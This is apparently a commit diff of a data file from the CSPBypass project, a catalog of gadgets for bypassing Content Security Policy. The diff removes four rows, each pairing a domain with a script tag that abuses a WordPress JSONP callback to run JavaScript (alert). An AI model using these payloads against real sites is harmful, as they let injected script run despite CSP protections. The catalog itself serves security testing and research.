

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 218: rubiconproject.com | <script src="https://rubiconproject.com/wp-json?_jsonp=alert"></script>
-row 234: sovrn.com | <script src="https://sovrn.com/wp-json?_jsonp=alert"></script>
-row 280: wildapricot.com | <script src="https://wildapricot.com/wp-json?_jsonp=alert"></script>
-row 330: yayin.com.tr | <script src="https://yayin.com.tr/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 12 removed rows elsewhere in this file.
